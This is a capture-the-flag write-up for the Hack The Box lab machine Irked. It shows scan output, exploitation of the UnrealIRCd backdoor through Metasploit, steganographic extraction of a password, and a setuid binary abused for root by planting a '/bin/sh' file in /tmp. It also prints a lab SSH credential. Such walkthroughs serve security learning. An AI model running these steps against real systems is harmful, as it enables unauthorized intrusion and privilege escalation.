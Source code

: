 ```yaml
---
title:     "Hack The Box - Irked"
tags: [linux,easy,steg]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/1.png)

We are going to pwn Irked from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/163>


Like always begin with our Nmap Scan.

## Nmap Scan Results

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
60236/tcp open  unknown
65534/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39016/udp6  status
|   100024  1          45688/udp   status
|   100024  1          52691/tcp6  status
|_  100024  1          60236/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60236/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Start from HTTP port 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/2.png)<br/>
This image looks suspecious , lets try Gobuster

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.117
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/10 23:56:59 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
===============================================================
2019/12/10 23:59:11 Finished
===============================================================
```

Nothing useful. Check other ports.
We know ``UnrealIRCD`` running, search them in searchsploit for any exploits
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/3.png)

I choose randomly and started with ``metasploit`` one

>https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor

>use exploit/unix/irc/unreal_ircd_3281_backdoor

## Getting Shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/4.png)<br/>
Set RHOST and LHOST

I got the shell as ``ircd``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/5.png)<br/>
While checking the home directory I found an user ``djmardov`` and got ``.backup`` file. 
It says ``steg`` maybe it is ``Stegnanography``

## Getting User Djmardov

We already saw an image in webpage , download it
I tried with [steghide](https://github.com/StefanoDeVuono/steghide)

>steghide - a steganography program

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/6.png)

It has a file called ``pass.txt``which is password protected and we got the pass already from ``.backup``

I got a password

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/7.png)

```
extract, --extract      extract data
-xf, --extractfile      select file name for extracted data
```

So I tried with them in ``ssh`` - ``djmardov:Kab6h+m+bbp2J:HG``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/8.png)


## Privilege Escalation

There is an setuid binary ``viewuser``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/9.png)

While executing it search for a file called ``listusers`` in ``/tmp``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/10.png)

Which is not found so we create one and make that gives us shell.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-irked/11.png)

I created one and tried executed the file ``viewuser`` it says permission denied for ``listusers``, I forgot to give permission and then it worked.
> echo “/bin/sh” > listusers

I got Root~




